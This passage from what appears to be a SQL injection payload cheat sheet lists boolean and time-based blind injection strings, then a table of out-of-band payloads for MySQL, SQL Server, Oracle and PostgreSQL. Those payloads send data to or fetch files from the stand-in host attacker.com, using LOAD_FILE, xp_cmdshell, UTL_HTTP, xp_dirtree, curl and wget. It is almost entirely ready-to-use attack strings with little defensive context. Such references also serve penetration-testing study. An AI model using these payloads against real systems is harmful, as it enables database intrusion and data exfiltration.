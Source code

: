| `' AND (SELECT @@version) LIKE '8.%' --`                                     | Check DB version                            | Boolean         | Infers DB version via conditional string check.                                              |
| `' AND (SELECT COUNT(*) FROM users) > 5 --`                                  | Check number of users                       | Boolean         | Reveals record count in a table.                                                             |
| `' UNION SELECT NULL, NULL, NULL --`                                         | Test for number of columns in query         | Boolean         | Helps determine the correct column count for UNION attacks.                                  |
| `' AND (SELECT CASE WHEN (SELECT COUNT(*) FROM users) > 10 THEN 1 ELSE SLEEP(5) END) --` | Conditional delay based on count | Time-Based      | Delays execution if record count exceeds threshold.                                          |


#### Out-of-Band SQLi

| Out-of-Band Code/Payload                                | Purpose                                      | Applicable Databases        | Description                                                                                 |
|----------------------------------------------------------|----------------------------------------------|------------------------------|---------------------------------------------------------------------------------------------|
| `LOAD_FILE('\\\\attacker.com\\payload.txt')`             | Trigger DNS request to exfiltrate data       | MySQL                        | Attempts to load a file from a remote server, initiating a DNS query.                       |
| `INTO OUTFILE '\\\\attacker.com\\data.txt'`              | Write data to a remote server                | MySQL                        | Writes query results to a file on an external server.                                       |
| `xp_cmdshell('nslookup attacker.com')`                   | Execute a system command for DNS lookup      | Microsoft SQL Server         | Runs a system command to resolve a malicious hostname.                                      |
| `UTL_HTTP.REQUEST('http://attacker.com')`                | Send HTTP request to attacker server         | Oracle                       | Uses Oracle UTL_HTTP to send a request to the attacker's domain.                            |
| `DBMS_LDAP.INIT('attacker.com', 389)`                    | Trigger LDAP query to a remote server        | Oracle                       | Uses LDAP connection to contact a remote server.                                             |
| `OPENROWSET('SQLNCLI', 'Server=attacker.com', ...)`      | Connect to external SQL server               | Microsoft SQL Server         | Opens a connection to a remote SQL server.                                                  |
| `curl http://attacker.com?data=$(query)`                | Exfiltrate data via HTTP                     | Any (via OS commands)        | Sends query output to attacker-controlled server using `curl`.                              |
| `wget http://attacker.com/file`                          | Download malicious payloads                  | Any (via OS commands)        | Downloads malicious files from the attacker's domain.                                       |
| `SELECT ... INTO DUMPFILE '\\\\attacker.com\\dump'`      | Write sensitive data to a remote location    | MySQL                        | Exports data directly to an external path.                                                  |
| `dns_lookup('attacker.com')`                             | Trigger DNS query                            | PostgreSQL (via extensions)  | Uses extensions to perform DNS resolution to exfiltrate data.                              |
| `SELECT pg_read_file('\\\\attacker.com\\file')`          | Read remote files                            | PostgreSQL                   | Attempts to read from a remote source using PostgreSQL functions.                           |
| `wget http://attacker.com/$(query_output)`               | Combine query result in HTTP request         | Any (via OS commands)        | Sends query output as part of a web request.                                                |
| `SELECT master.dbo.xp_dirtree '\\\\attacker.com\\'`      | Trigger directory listing remotely           | Microsoft SQL Server         | Uses `xp_dirtree` to list directories and initiate outbound connection.                     |
| `EXEC xp_cmdshell('ping attacker.com')`                  | Ping attacker's server to confirm execution  | Microsoft SQL Server         | Uses ICMP to verify if a command has been successfully executed.                            |

